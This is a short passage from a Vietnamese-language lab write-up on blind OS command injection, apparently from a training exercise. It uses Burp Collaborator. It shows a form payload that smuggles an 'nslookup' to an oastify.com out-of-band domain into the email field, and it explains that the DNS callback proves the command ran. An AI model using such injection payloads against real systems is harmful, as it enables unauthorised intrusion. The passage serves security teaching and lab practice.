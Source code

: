     ![image.png](/OS%20command%20injection/images/image%2019.png)
    
- Sử dụng burp tạo fake domain [`zil20vjhuz35l96nvcg3o61uxl3cr2fr.oastify.com`](http://zil20vjhuz35l96nvcg3o61uxl3cr2fr.oastify.com/) . Sau đó gửi payload
    
    ```bash
    csrf=sGbFdDJXpZP2fKqkcOPH1t2WGfVm4x6I&name=jayce&email=jaycedang%40gmail.com||nslookup+x.zil20vjhuz35l96nvcg3o61uxl3cr2fr.oastify.com||&subject=IT&message=Hello
    ```
    
    ![image.png](/OS%20command%20injection/images/image%2020.png)
    
    → Máy chủ đích nếu thực thi lệnh này, nó sẽ gửi yêu cầu DNS đến `oastify.com`, một dịch vụ dùng để phát hiện yêu cầu từ xa. Attacker có thể theo dõi xem truy vấn có được thực thi hay không.
    